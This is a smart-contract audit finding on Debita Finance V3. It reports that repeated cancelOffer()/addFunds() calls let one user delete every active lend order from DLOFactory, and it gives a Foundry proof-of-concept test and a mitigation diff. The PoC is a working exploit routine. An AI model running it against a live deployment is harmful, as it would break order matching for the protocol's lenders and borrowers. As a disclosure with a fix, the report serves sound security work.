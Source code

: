 Sneaky Grape Goat

Medium

# Malicious user can delete all lend orders from DLOFactory

### Summary

A malicious user can create a lend order and delete all other lend orders by calling `DLOImplementation::addFunds()` and `DLOImplementation::cancelOffer()` repeatedly until `DLOFactory` deletes all active lending orders.

### Root Cause

No check in `DLOImplementation::cancelOffer()` to ensure that an order cannot be deleted twice

### Internal pre-conditions

_No response_

### External pre-conditions

_No response_

### Attack Path

1. Create a new Lend order
2.  Delete that lend order by calling `DLOImplementation::cancelOffer()`
3.  Add minimum funds(1 wei) to that order by calling `DLOImplementation::addFunds()`
4.  Call `DLOImplementation::cancelOffer()` again and repeat the same process in step 2 and 3

### Impact

1.  All active lend order addresses will be lost from the `DLOFactory` contract in Line [88-89](https://github.com/sherlock-audit/2024-11-debita-finance-v3/blob/main/Debita-V3-Contracts/contracts/DebitaLendOfferFactory.sol#L88-L89).
2.  A borrower or lender cannot get any info on loans by calling `DLOFactory::getActiveOrders()` if the addresses of those loans are deleted from the contract. They will not be able to match offers according to their will.

### PoC

1.  Create a new file in test folder -`PoC.t.test`
2.  Paste the following codes in that file-
```solidity
// SPDX-License-Identifier: SEE LICENSE IN LICENSE
pragma solidity ^0.8.20;

import {DLOFactory} from "@contracts/DebitaLendOfferFactory.sol";
import {DLOImplementation} from "@contracts/DebitaLendOffer-Implementation.sol";
import {ERC20Mock} from "@openzeppelin/contracts/mocks/token/ERC20Mock.sol";

import {Test, console} from "forge-std/Test.sol";

contract PoC is Test {
    DLOFactory public dloFactoryContract;
    DLOImplementation public lendImplementation;
    ERC20Mock public aeroContract;

    address alice = makeAddr("alice");
    address bob = makeAddr("bob");
    address carol = makeAddr("carol");
    address deployer = makeAddr("deployer");
    address maliciousUser = makeAddr("maliciousUser");

    function setUp() public {
        vm.startPrank(deployer);
        lendImplementation = new DLOImplementation();
        dloFactoryContract = new DLOFactory(address(lendImplementation));
        aeroContract = new ERC20Mock();
        vm.stopPrank();
    }

    function testDeleteLendOrder() public {
        address[] memory lendAddress = createLendOrder();
        console.log("Before delete count: ", dloFactoryContract.activeOrdersCount());
        uint256 count = dloFactoryContract.activeOrdersCount();

        vm.startPrank(maliciousUser);
        DLOImplementation(lendAddress[count - 1]).cancelOffer();

        // Here a malicious user can delete all lend orders from the factory contract
        // As a result no one can find out the active lend orders from the factory contract to match offers
        // This might disrupt the whole lending system
        for(uint256 i = 0; i < count-1; i++) {
            aeroContract.approve(lendAddress[count - 1], 1);
            DLOImplementation(lendAddress[count - 1]).addFunds(1);
            DLOImplementation(lendAddress[count - 1]).cancelOffer();
        }

        vm.stopPrank();

        assertEq(dloFactoryContract.activeOrdersCount(), 0);

        address orderAtZero = dloFactoryContract.allActiveLendOrders(0);
        console.log("Order at one: ", orderAtZero);
        address orderAtOne = dloFactoryContract.allActiveLendOrders(1);
        console.log("Order at one: ", orderAtOne);

        console.log("After delete count: ", dloFactoryContract.activeOrdersCount());
    }

    function createLendOrder() public returns(address[] memory) {
        bool[] memory oraclesActivated = new bool[](1);
        uint[] memory ltvs = new uint[](1);
        uint[] memory ratio = new uint[](1);
        address[] memory oraclesPrinciples = new address[](1);
        address[] memory acceptedPrinciples = new address[](1);

        ltvs[0] = 0;
        oraclesActivated[0] = false;
        oraclesPrinciples[0] = address(0x0);
        acceptedPrinciples[0] = address(aeroContract);
        ratio[0] = 1e18;

        address[] memory lendAddress = new address[](4);

        vm.startPrank(alice);
        deal(address(aeroContract), alice, 1000e18);
        aeroContract.approve(address(dloFactoryContract), 1000e18);
        lendAddress[0] = dloFactoryContract.createLendOrder(
            false,
            oraclesActivated,
            false,
            ltvs,
            1000,
            8640000,
            86400,
            acceptedPrinciples,
            address(aeroContract),
            oraclesPrinciples,
            ratio,
            address(0x0),
            5e18
        );
        vm.stopPrank();

        vm.startPrank(bob);
        deal(address(aeroContract), bob, 1000e18);
        aeroContract.approve(address(dloFactoryContract), 1000e18);
        lendAddress[1] = dloFactoryContract.createLendOrder(
            false,
            oraclesActivated,
            false,
            ltvs,
            1000,
            8640000,
            86400,
            acceptedPrinciples,
            address(aeroContract),
            oraclesPrinciples,
            ratio,
            address(0x0),
            5e18
        );
        vm.stopPrank();

        vm.startPrank(carol);
        deal(address(aeroContract), carol, 1000e18);
        aeroContract.approve(address(dloFactoryContract), 1000e18);
        lendAddress[2] = dloFactoryContract.createLendOrder(
            false,
            oraclesActivated,
            false,
            ltvs,
            1000,
            8640000,
            86400,
            acceptedPrinciples,
            address(aeroContract),
            oraclesPrinciples,
            ratio,
            address(0x0),
            5e18
        );
        vm.stopPrank();

        vm.startPrank(maliciousUser);
        deal(address(aeroContract), maliciousUser, 1000e18);
        aeroContract.approve(address(dloFactoryContract), 1000e18);
        lendAddress[3] = dloFactoryContract.createLendOrder(
            false,
            oraclesActivated,
            false,
            ltvs,
            1000,
            8640000,
            86400,
            acceptedPrinciples,
            address(aeroContract),
            oraclesPrinciples,
            ratio,
            address(0x0),
            5e18
        );
        vm.stopPrank();

        return lendAddress;
    }
}
```
3. Run `forge test --mt testDeleteLendOrder -vv`

### Mitigation

Add a check in `DLOImplementation::cancelOffer()` and `DLOImplementation::addFunds()`, to verify whether the order has already been deleted

Add the following lines in `DLOImplementation`:

```diff
function cancelOffer() public onlyOwner nonReentrant {
+      require(isActive, "Order already deleted");
        uint availableAmount = lendInformation.availableAmount;
        lendInformation.perpetual = false;
// Rest of the code
```
```diff
function addFunds(uint amount) public nonReentrant {
+     require(isActive, "Order deleted!");
        require(
            msg.sender == lendInformation.owner ||
                IAggregator(aggregatorContract).isSenderALoan(msg.sender),
            "Only owner or loan"
        );
// Rest of the code
```
